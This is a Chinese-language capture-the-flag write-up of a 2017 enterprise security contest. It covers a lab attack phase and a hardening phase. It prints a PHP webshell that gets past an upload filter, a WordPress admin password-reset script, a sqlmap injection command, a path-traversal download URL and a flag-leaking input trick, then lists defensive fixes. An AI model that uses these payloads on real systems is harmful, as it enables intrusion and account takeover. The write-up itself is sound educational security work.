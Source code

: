 ```yaml
---
title: 2017 信息安全铁人三项赛企业赛华南赛区 WriteUp
tags:
  - CTF
  - Web
  - WriteUp
  - 审计
  - 加固
  - 上传
date: 2017-04-23 20:42:59
---
```


## “企业夺旗”模式

```
web1：192.168.5.11 wordpress
```
<!-- more -->
fuzzing中发现test目录存在测试上传页面，随便传一个php网马上去可以看到该页面源码，主要过滤代码如下
```php
while($next = preg_replace("/&lt;\\?/", "", $data)){ 
    $next = preg_replace("/php/", "", $next); 
    if($data === $next) { 
        break; 
    } 
    source(); 
    $data = $next; 
}
```
不难看出对‘php’进行循环过滤，我是`构造大小写加script`绕过的
```php
<script language="pHp">eval($_POST[x]);</script>
```
菜刀连接后在网站根目录找到`flag1`。

然后利用网上找的代码修改`wordpress admin`密码
```php
<?php
//password resetter
include("wp-config.php");
include("wp-blog-header.php");
if (empty($_POST['emergency_pass'])) {
?>
    <form method="post">
      set admin password: <input name="emergency_pass" type="password" />
      <input type="submit" />
    </form>
<?php
} else {
    $sql = "UPDATE ".$wpdb->users." SET user_pass = '".md5($_POST['emergency_pass'])."' WHERE User_login = 'admin'";
    $link = $wpdb->query($sql);
    wp_redirect('wp-login.php');
    exit();
}
?>
```
在后台找了一圈没看到flag，把账号密码甩给队友，队友在导出所有内容中找到了`flag7`

尝试提权失败，Centos7 3.1内核，后来下午加固赛发现ssh密码是弱密码，早上拿一血的队伍是直接`ssh爆破`get的

```
web2：192.168.2.12  PHPOA
```
百度这个oa系统找到了这个
[某协同网络办公OA系统若干漏洞打包（附详细分析）](http://www.shellsec.com/tech/151965.html)

注入拿到后台账号密码`test` `admin123`
```
python sqlmap.py -u "http://192.168.2.12/admin.php?ac=duty&amp;fileurl=duty" --data "do=excel&amp;number=1" -D myoa --tables
```
进了后台看到`flag10`

找到两个上传点，一个ewe的编辑器，发现后缀名绕不过去然后用了另一个上传点，

用`任意文件下载漏洞`下载了`/upload_file.php`源码
```
http://192.168.2.12/down.php?urls=data/../upload_file.php
```
```php
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&( $uploaded_size < 100000 ) &&getimagesize( $uploaded_tmp ) ) {
    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo 'Your image was not uploaded.';
    }
    else {
        // Yes!
        echo ltrim($target_path,'.')." succesfully uploaded!";
    }
}
```
直接上传图马菜刀连接，网站根目录拿到`flag3`

这时名次徘徊在5.6名，队友说发现一个FTP服务器
```
FTP：192.168.5.13
```
8uftp连接，下意识输入`admin` `admin`，直接弱密码连接成功，我和两个队友都惊呆了

ftp里一共四个flag，一个明文`flag2`，另外三个在`another-flag.zip` 中，
队友解开伪加密，里面有个明文的`flag11`，还有一个c语言源码，是道`pwn`题，
令人惊讶的是这道题是道原题，i春秋有视频解析的一道题
[http://www.ichunqiu.com/course/53923](http://www.ichunqiu.com/course/53923)

通过输入名字长度为40位+已知flag，就能得到下一位flag
如输入`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag`就能看到下一位`8`，这个flag是`flag8`，然后输入
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag8`就能看到下一位`{`，依次类推直到看见`}`。

还有一个apk安卓文件，两个队友到最后也只解出了`flag9{}`，但是中间部分没解出来
夺旗赛剩下的时间都在研究linux提权，一直以为服务器根目录还有flag，到最后也没拿下。

## “企业加固”模式

加固赛给了四个服务器
```
web1/linux：192.168.5.11
ftp/linux：192.168.5.13
域控制器/win7：192.168.忘记是啥了
web2/linux：192.168.2.12
```
这里的域控制器早上一直没扫到，登陆进去发现`flag4`但是已经晚了

我的加固步骤如下：
```
修改web1，域控制器登录弱密码
修改ftp服务器中的admin账号弱密码
删除web1的test目录
删除web2页面中的几个备份文件
删除web2测试账号
web2任意文件下载限制php后缀
web2文件上传添加后缀限制
web1，web2添加waf防止注入
```

另外win7加固扔给队友了，因为最近的`fb.py`嘛

分数最高的时候拿到第二，最终拿下第三名。

## 总结

第一次参加这种类型的比赛，感觉准备的还不是很充分，上午拿flag因为web太慢第一个小时差点心态爆炸，两个服务器弱密码都没有找出来，ftp弱密码也只是运气好拿到的，下午的加固赛中没有和队友沟通好，基本是只有两个人在战斗，差点第三不保。最终的成绩还是比较满意的，意识到自己的很多不足，也慢慢找到了适合自己的网络安全方向，偏代码审计方向。奖金5000块还是有点美滋滋的哈哈哈哈。

![](http://ovm02pvss.bkt.clouddn.com/2017t3sec.jpg)